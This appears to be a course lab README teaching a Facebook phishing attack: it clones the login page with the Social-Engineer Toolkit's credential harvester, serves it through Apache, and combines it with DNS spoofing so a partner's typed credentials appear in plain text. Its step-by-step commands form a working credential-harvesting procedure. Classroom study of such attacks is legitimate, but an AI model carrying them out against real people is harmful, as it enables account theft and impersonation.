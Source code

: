 # Phishing Attack

Phishing is a type of social engineering where an attacker sends a fraudulent (e.g., spoofed, fake, or otherwise deceptive) message designed to trick a person into revealing sensitive information to the attacker (a password or credential) or to deploy malicious software on the victim's infrastructure like ransomware.

Phishing attacks have become increasingly sophisticated and often transparently mirror the site being targeted, allowing the attacker to observe everything while the victim is navigating the site, and transverse any additional security boundaries with the victim. 
 
Phishing is by far the most common attack performed by cybercriminal

## Facebook Phishing Attack
### **Goal**
In this session, our goal is to clone the facebook website and to apply a [**dns spoofing**](https://github.com/fpacenza/NetworkAndSecurity/tree/main/Other%20MITM%20Attacks/DNS%20Spoofing) attack using ettercarp in order to retrieve victim's credentials.

### **Settings**
Work in group with another collegue in order to work on your own laptop (avoiding GNS3 lab)
 * **Attacker:** you (in my case **192.168.1.135**)
 * **Victim:** your collegue (in my case **192.168.1.132**)
 * **Router:** you can use your phone. Both the **Attacker** and the **Victim** must be connected to the same network 

### **Steps**
 1. Follow the guideline in order to perform a [**dns spoofing**](https://github.com/fpacenza/NetworkAndSecurity/tree/main/Other%20MITM%20Attacks/DNS%20Spoofing) attack against the victim ip address
 2. Install ***S**oftware **E**ngineering **Toolkit*** (**setoolkit**)

        git clone https://github.com/trustedsec/social-engineer-toolkit/ set/
        cd set
        sudo python3 setup.py install
 3. Install **Apache2**

        sudo apt update
        sudo apt install apache2
 4. Install and enable **libapache2-mod-php**

        cd /etc/apache2/mods-available
        sudo apt install libapache2-mod-php*
        sudo a2enmod phpX.Y
    * **Attention:** substitute `X.Y`with your `php` version; if comaptibility errors with libapache2-mod-php**5** are shown, disable module libapache2-mod-php

 5. Configure setoolkit

        sudo su
        pico /etc/setoolkit/set.config

    * Edit the following parameters:
        
        * **APACHE_SERVER ON**
        * **APACHE_DIRECTORY /var/www/html**
 6. Run **setoolkit** as superuser
    
        sudo setoolkit

 7. Use the interactive shell to clone the facebook website

        enter 1 - Social-Engineering Attacks
        enter 2 - Website Attack Vectors
        enter 3 - Credential Harvester Attack Method
        enter 2 - Site Cloner
 8. Enter your (**Attacker**) ip address
 9. Enter the website url you want to clone, (e.g., **www.facebook.com**)
 10. On the **Victim** side try to ping **www.facebook.com**

            ping -n www.facebook.com
    
        * You should see the ip address of the **Attacker** instead of the ip address of the (real) facebook server
![alt text](https://github.com/fpacenza/NetworkAndSecurity/blob/main/Phishing/1.dns_spoof_ping_test.png?raw=true)

 11. Navigate **www.facebook.com** from the **Victim** pc
 12. Fillin **username** and **password** fields
 13. Come back to **Attacker** machine e see in **plain text** the username and password as filled in by the **Victim**
 ![alt text](https://github.com/fpacenza/NetworkAndSecurity/blob/main/Phishing/2.phishing.png?raw=true)

**Attention:** if the **Victim** browser has the auto-redirect to https option enabled, the **Victim** will be redirected to **https** web page so, you need to enable also the **ssl** module on your **apache2** webserver 
